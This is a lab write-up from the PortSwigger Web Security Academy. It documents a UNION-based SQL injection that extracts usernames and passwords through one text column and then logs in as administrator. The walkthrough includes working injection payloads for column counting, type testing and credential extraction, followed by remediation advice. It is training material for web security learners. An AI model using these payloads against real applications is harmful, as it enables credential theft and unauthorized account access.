



# SQL Injection UNION Attack — Retrieving Multiple Values in a Single Column

## Lab Overview

This lab demonstrates a UNION-based SQL injection vulnerability in a product category filter.

The application is vulnerable to SQL injection because user-controlled input is incorporated into a backend SQL query without sufficient protection. The query results are reflected in the application's response, allowing data from other database tables to be retrieved.

The database contains a `users` table with the following columns:

* `username`
* `password`

The objective is to retrieve all usernames and passwords and use the extracted credentials to authenticate as the `administrator` user.

---

## Objectives

* Identify the SQL injection point.
* Determine the number of columns returned by the original query.
* Identify the column capable of returning text.
* Retrieve data from the `users` table.
* Retrieve multiple values through a single output column.
* Extract administrator credentials.
* Authenticate as the `administrator` user.
* Verify successful exploitation.

---

## Vulnerability Details

| Property               | Details                                          |
| ---------------------- | ------------------------------------------------ |
| Vulnerability          | SQL Injection                                    |
| Attack Type            | UNION-based SQL Injection                        |
| Injection Point        | `category` parameter                             |
| Affected Functionality | Product category filter                          |
| Database Table         | `users`                                          |
| Retrieved Fields       | `username`, `password`                           |
| Impact                 | Sensitive data disclosure and account compromise |
| Lab Platform           | PortSwigger Web Security Academy                 |
| Tool                   | Burp Suite Professional                          |
| Status                 | Solved                                           |

---

## Attack Methodology

The attack followed a structured UNION-based SQL injection workflow:

1. Identify the injectable parameter.
2. Determine the number of columns in the original query.
3. Identify the text-compatible column.
4. Construct a UNION query targeting the `users` table.
5. Concatenate `username` and `password` into a single output value.
6. Retrieve the credentials from the HTTP response.
7. Authenticate as the administrator.
8. Confirm successful exploitation.

---

## 1. Identifying the Injection Point

The vulnerable functionality was the product category filter.

The `category` parameter was selected as the injection point and the request was transferred to Burp Suite Repeater for controlled testing.

### Original Request

```http
GET /filter?category=Accessories HTTP/2
```

The original request is documented in:

`screenshots/02-original-request.png`

---

## 2. Determining the Number of Columns

A UNION query containing two `NULL` values was tested:

```sql
' UNION SELECT NULL,NULL--
```

The request was accepted, indicating that the original query returned two columns.

### Result

```text
Number of columns: 2
```

Evidence:

`screenshots/03-column-count.png`

---

## 3. Identifying the Text-Compatible Column

The columns were tested individually using a text value.

### Test 1

```sql
' UNION SELECT 'abc',NULL--
```

This resulted in a server-side error.

### Test 2

```sql
' UNION SELECT NULL,'abc'--
```

This request was accepted, demonstrating that the second column was compatible with text output.

### Result

```text
Column 1: Not used for text output
Column 2: Text-compatible
```

Evidence:

`screenshots/04-text-compatible-column.png`

---

## 4. Retrieving Data from Another Table

The lab description identified a `users` table containing:

```text
username
password
```

Because only one output column was compatible with text, both values needed to be combined into a single string.

The following expression was used:

```sql
username||'~'||password
```

The `~` character was used as a separator between the two values.

The complete UNION query was:

```sql
' UNION SELECT NULL,username||'~'||password FROM users--
```

This caused the application to return multiple username/password combinations through the single text-compatible column.

Evidence:

`screenshots/05-credential-extraction.png`

> Sensitive credentials extracted during testing should be redacted before publishing this screenshot to a public repository.

---

## 5. Administrator Authentication

The extracted `administrator` credentials were used through the application's authentication functionality.

Authentication was successful and the application displayed the administrator account.

The lab was subsequently marked as solved.

---

## 6. Proof of Exploitation

The final result confirmed:

```text
Authenticated User: administrator
Lab Status: Solved
```

Evidence:

`screenshots/06-lab-solved.png`

---

## Evidence

### Lab Overview


### Original Request


### Column Count Determination



### Text-Compatible Column



### Credential Extraction



> Redact sensitive credential values before publishing the image publicly.

### Lab Solved


---

## Key Technical Concepts

This lab demonstrates several important SQL injection concepts:

* UNION-based SQL injection
* Column count enumeration
* Data type compatibility testing
* String concatenation
* Cross-table data retrieval
* Multi-value extraction through a single column
* Credential disclosure
* Authentication compromise
* Evidence-based vulnerability documentation

---

## Security Impact

Successful exploitation demonstrated that an attacker could:

* Manipulate the application's SQL query.
* Retrieve data from another database table.
* Extract usernames and passwords.
* Obtain administrator credentials.
* Authenticate as an administrator.

In a real-world application, this could result in unauthorized access to sensitive application functionality and data.

---

## Remediation

The primary remediation is to use parameterized queries or prepared statements for all database operations involving user-controlled input.

Additional security controls include:

* Use prepared statements / parameterized queries.
* Never concatenate untrusted input directly into SQL statements.
* Implement appropriate server-side input validation.
* Apply least-privilege database permissions.
* Avoid exposing detailed database errors.
* Minimize sensitive information returned in application responses.
* Store passwords using strong password hashing.
* Perform regular security testing and code review.
* Include SQL injection testing in security regression testing.

---

## Conclusion

This lab demonstrated a complete UNION-based SQL injection attack in which multiple database values were retrieved through a single text-compatible output column.

The key technique was concatenating the `username` and `password` fields into one value using the database's string concatenation operator.

The extracted administrator credentials were then used to authenticate successfully, demonstrating the potential impact of SQL injection beyond simple data retrieval.

**Lab Status: Solved**
